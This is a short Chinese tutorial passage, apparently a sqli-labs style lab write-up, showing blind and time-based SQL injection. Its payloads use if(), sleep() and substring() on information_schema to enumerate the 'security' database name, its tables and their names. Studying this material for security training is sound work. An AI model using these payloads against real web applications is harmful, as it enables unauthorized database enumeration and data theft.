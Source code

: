 <img src="图片\Snipaste_2023-01-20_12-44-46.png" alt="Snipaste_2023-01-20_12-44-46" style="zoom:67%;" />

```
?id=1' and if(1=1,1,0) --+   返回正常
?id=1' and if(1=2,1,0) --+   返回不正常
```

获取数据库名的长度，security 的长度是8

```
?id=1' and if(length(database())>10,sleep(20),0) --+
```

获取数据库名称，为 security

```
?id=1' and if(substr(database(),1,1)='s',sleep(10),1) --+
```

获取数据库表的数量

```
?id=1' and if((select count(*)table_name from information_schema.tables where table_schema=database())=37,1,0) --+
```

获取表名称的长度，limit 0,1 表示是第一个表，limit 1,1 表示是第二个表

```
?id=1' and if((select LENGTH(table_name) from information_schema.tables where table_schema='security' limit 0,1)=6,1,0) --+
```

获取表名称，substring() 函数为截取字符串

```
?id=1' and if(substring((select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 0,1),1,1)='e',1,0) --+
```
